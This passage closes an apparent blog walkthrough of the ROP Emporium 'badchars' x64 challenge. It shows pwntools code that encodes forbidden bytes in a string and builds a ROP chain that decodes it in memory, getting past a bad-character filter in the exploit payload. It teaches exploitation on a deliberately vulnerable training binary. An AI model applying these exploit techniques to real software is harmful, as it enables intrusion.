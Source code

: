 Here are the updated functions which produces a payload 
that is more space efficient

```python
#!/bin/python3
from pwn import *

# subtract 1 at proper indices
sub_indices = []
def decode_str(addr, s):
    payload = b''
    is_r14_set = False
    for i in range(0, len(s)):
        if i not in sub_indices:
            continue
        r15 = p64(addr + i)
        if not is_r14_set:
            r14 = p64(0x1)
            payload += p64(pop_r14_r15) + r14 + r15
            is_r14_set = True
        else:
            payload += p64(pop_r15) + r15
        payload += p64(sub_addr)
    return payload

# add 1 to forbidden chars
invalid_bytes = [ord('x'), ord('g'), ord('a'), ord('.')]
def encode_str(s):
    blist = bytearray(s)
    for i in range(0, len(blist)):
        if blist[i] in invalid_bytes:
            blist[i] += 1
            sub_indices.append(i)
    return blist
```

![smaller payload](/images/badchars/x64-smaller-payload.png)

We made the payload 152 bytes smaller!

## Conclusion
In this challenge we learned how to bypass forbidden
characters in our ROP chain by decoding an encoded string
in memory. Next we'll learn how to write to memory with
more complicated gadgets.

[Previous Challenge (write4)]({% post_url 2024-06-03-rop-emporium-write4-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

[Next Challenge (fluff)]({% post_url 2024-06-06-rop-emporium-fluff-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

[badchars x86]({% post_url 2024-06-05-rop-emporium-badchars-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}
